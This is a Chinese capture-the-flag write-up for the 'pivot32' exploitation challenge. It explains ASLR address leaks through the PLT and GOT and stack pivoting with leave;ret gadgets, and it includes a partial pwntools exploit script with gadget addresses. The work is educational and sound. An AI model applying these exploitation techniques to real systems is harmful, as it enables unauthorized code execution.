#### pivot32
这是挑战的最后一题，难度突然增加。首先是动态库，动态库中函数的相对位置是固定的，所以如果我们知道其中一个函数的地址，就可以通过相对位置关系得到其他任意函数的地址。在开启 ASLR 的情况下，动态库加载到内存中的地址是变化的，但并不影响库中函数的相对位置，所以我们要想办法先泄露出某个函数的地址，从而得到目标函数地址。

通过分析我们知道该程序从动态库 `libpivot32.so` 中导入了函数 `foothold_function()`，但在程序逻辑中并没有调用，而在 `libpivot32.so` 中还有我们需要的函数 `ret2win()`。

现在我们知道了可以泄露的函数 `foothold_function()`，那么怎么泄露呢。前面我们已经简单介绍了延时绑定技术，当我们在调用如 `func@plt()` 的时候，系统才会将真正的 `func()` 函数地址写入到 GOT 表的 `func.got.plt` 中，然后 `func@plt()` 根据 `func.got.plt` 跳转到真正的 `func()` 函数上去。

最后是该挑战最重要的部分，程序运行我们有两次输入，第一次输入被放在一个由 `malloc()` 函数分配的堆上，当然为了降低难度，程序特地将该地址打印了出来，第二次的输入则被放在一个大小限制为 13 字节的栈上，这个空间不足以让我们执行很多东西，所以需要运用 stack pivot，即通过覆盖调用者的 ebp，将栈帧转移到另一个地方，同时控制 eip，即可改变程序的执行流，通常的 payload（这里称为副payload） 结构如下：
```
buffer padding | fake ebp | leave;ret addr |
```
这样函数的返回地址就被覆盖为 leave;ret 指令的地址，这样程序在执行完其原本的 leave;ret 后，又执行了一次 leave;ret。

另外 fake ebp 指向我们另一段 payload（这里称为主payload） 的 ebp，即 主payload 地址减 4 的地方，当然你也可以在构造 主payload 时在前面加 4 个字节的 padding 作为 ebp：
```
ebp | payload
```

我们知道一个函数的入口点通常是：
```
push ebp
mov  ebp,esp
```
leave 指令相当于：
```
mov esp,ebp
pop ebp
```
ret 指令为相当于：
```
pop eip
```

如果遇到一种情况，我们可以控制的栈溢出的字节数比较小，不能完成全部的工作，同时程序开启了 PIE 或者系统开启了 ASLR，但同时在程序的另一个地方有足够的空间可以写入 payload，并且可执行，那么我们就将栈转移到那个地方去。

完整的 exp 如下：
```python
from pwn import *

#context.log_level = 'debug'
#context.terminal = ['konsole']
io = process('./pivot32')
elf = ELF('./pivot32')
libp = ELF('./libpivot32.so')

leave_ret = 0x0804889f

foothold_plt     = elf.plt['foothold_function'] # 0x080485f0
foothold_got_plt = elf.got['foothold_function'] # 0x0804a024

pop_eax      = 0x080488c0
pop_ebx      = 0x08048571
mov_eax_eax  = 0x080488c4
add_eax_ebx  = 0x080488c7
call_eax     = 0x080486a3

foothold_sym = libp.symbols['foothold_function']
ret2win_sym  = libp.symbols['ret2win']
offset = int(ret2win_sym - foothold_sym) # 0x1f7

leakaddr  = int(io.recv().split()[20], 16)
```